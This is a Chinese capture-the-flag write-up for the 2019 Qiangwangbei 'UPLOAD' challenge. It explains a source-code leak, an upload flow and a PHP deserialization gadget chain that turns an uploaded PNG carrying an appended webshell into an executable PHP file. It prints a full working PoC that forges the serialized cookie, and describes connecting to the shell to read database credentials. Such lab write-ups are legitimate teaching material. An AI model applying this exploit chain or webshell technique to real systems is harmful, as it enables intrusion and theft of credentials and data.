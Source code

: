 # \[强网杯 2019] UPLOAD

## \[强网杯 2019] UPLOAD

## 考点

* 代码审计
* www.tar.gz 源码泄露
* PHP反序列化

## wp

https://www.zhaoj.in/read-5873.html

### 分析

1. 只能上传正常的图片，非 png 格式会自动转化为 png，图片被保存在 upload 目录下
2. 本题是 www.tar.gz 泄露，源码泄露总结
3. 函数流程：
   1. 没有登陆时，跳转到 index.php，进行注册登陆。login\_check 函数将 cookie('user') 赋给 profile，然后 base64 解码反序列化
   2. 在注册页面调用 login\_check 函数检查是否登陆，是则跳转到 index.php/home ，否则进行注册
   3. 在登陆页面调用 login\_check 函数检查是否登陆，是则跳转到 index.php/home ，否则进行登陆
   4. 已经登陆时，跳转到 index.php/home 进行文件上传操作
   5. 在进行上传操作时，对请求头中的 REMOTE\_ADDR 进行 md5 加密并赋给 upload\_menu ，然后创建以 upload\_menu 命名的文件夹
   6. 然后进行登陆检查，然后将文件的临时副本的名称赋给 filename\_tmp，将文件名(不加后缀)进行 md5 加密后赋给 filename
   7. 然后进行后缀检测，将 filename 的后缀赋给 ext，如果 ext 为 png 返回 1，否则返回 0
   8. 如果后缀是 png，检查图片内容，然后将 filename 赋给 filename\_tmp，将图片相对路径赋给 img，执行 update\_img 函数
   9. update\_img 函数先进行 user 查询，如果 user 没有上传过图片并且 img 存在，则更新 user 表的 img 字段，并执行 update\_cookie 函数
   10. update\_cookie 函数将上传图片的 img 进行序列化和 base64 编码后赋给 cookie 的 user
   11. profile 的 \_call 和 \_get 两个魔术方法，分别书写了在调用不可调用方法和不可调用成员变量时怎么做。\_\_get 会直接从 except 里找，\_\_call 会调用自身的 name 成员变量所指代的变量所指代的方法。

## 攻击流程

注册，登陆。登陆之后有个跳转的过程，这里就有了 cookie，如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_1.png)

解码后如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_2.png)

选择上传图片，这个图片就是合成的图片马，从 [阿里巴巴矢量图库](https://www.iconfont.cn/) 下载一个 png 图片，然后蚁剑生成一个 shell，用 hex 编辑器直接将 shell 内容放在图片后面即可。这里使用阿里的图库是因为网上的 png 图片可能 hex 格式不规范，导致后面改名之后会报 parse error

上传图片之后，会在 upload 目录下生成一个 md5(REMOTE\_ADDR) 文件，而且文件名也会被 md5 加密，这时 cookie\['user'] 如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_3.png)

解码后如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_4.png)

使用 poc 生成的序列化结果修改 cookie\['user']，刷新一次即可修改后缀。在服务器反序列化的过程中，在 Register 类中执行析构函数，调用 $profile 的 index() 函数，在 Profile 类的 \_\_get 函数中定义了如果调用 index() 就去调用 img，而 \_\_call 函数规定调用不可调用的函数时就调用 img 对应的函数，这样就控制函数跳转到 upload\_img 函数，然后执行复制函数，将 png 改为 php，并删除原有的 png，至此，后缀修改完成。

最后直接用蚁剑连接 shell，读取配置文件中的数据库信息，选择 mysqli 驱动连接到数据库，即可读取 flag

最终 poc 如下，修改上传图片地址即可

```php
<?php
namespace app\web\controller;

class Profile
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;

    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}

class Register
{
    public $checker;
    public $registed;

    public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }

}

$profile = new Profile();
$profile->except = ['index' => 'img'];
$profile->img = "upload_img";
$profile->ext = "png";
//修改地址即可
$profile->filename_tmp = "../public/upload/24ff17b3e72d90d210f3455327ea52f7/36a767e7b2d8d3bde3f881217a418ebb5.png";
$profile->filename = "../public/upload/24ff17b3e72d90d210f3455327ea52f7/6a767e7b2d8d3bde3f881217a418ebb5.php";

$register = new Register();
$register->registed = false;
$register->checker = $profile;

echo urlencode(base64_encode(serialize($register)));
?>
```



> mysqli 是 PHP 驱动数据库的一种方式，以前是使用 mysql 的，而 mysqli 相比于 mysql 更加安全高效
>
> copy(a, b)，a 和 b 是文件路径，将文件从 a 拷贝到 b，比如 copy("./1.png", "./1.php" ) 执行之后会存在两个文件 1.png 和 1.php
>
> unlink(a)，a 是文件路径，删除文件 a
